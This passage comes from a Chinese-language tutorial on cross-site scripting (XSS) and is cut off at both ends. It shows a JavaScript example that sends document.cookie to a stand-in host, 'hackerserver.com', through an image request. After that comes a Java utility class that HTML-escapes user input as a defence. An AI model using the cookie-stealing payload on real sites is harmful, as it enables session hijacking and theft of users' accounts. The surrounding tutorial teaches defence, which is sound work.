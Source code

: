 
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
1
2
3
4
2.读取用户未公开的资料，如果：邮件列表或者内容、系统的客户资料，联系人列表等等，如代码：

解决方法
一种方法是在表单提交或者url参数传递前，对需要的参数进行过滤,请看如下XSS过滤工具类代码

import java.net.URLEncoder;

/**
 * 过滤非法字符工具类
 * 
 */
public class EncodeFilter {

    //过滤大部分html字符
    public static String encode(String input) {
        if (input == null) {
            return input;
        }
        StringBuilder sb = new StringBuilder(input.length());
        for (int i = 0, c = input.length(); i < c; i++) {
            char ch = input.charAt(i);
            switch (ch) {
                case '&': sb.append("&amp;");
                    break;
                case '<': sb.append("&lt;");
                    break;
                case '>': sb.append("&gt;");
                    break;
                case '"': sb.append("&quot;");
                    break;
                case '\'': sb.append("&#x27;");
                    break;
                case '/': sb.append("&#x2F;");
                    break;
                default: sb.append(ch);
            }
        }
        return sb.toString();
    }

    //js端过滤
    public static String encodeForJS(String input) {
        if (input == null) {
            return input;
        }
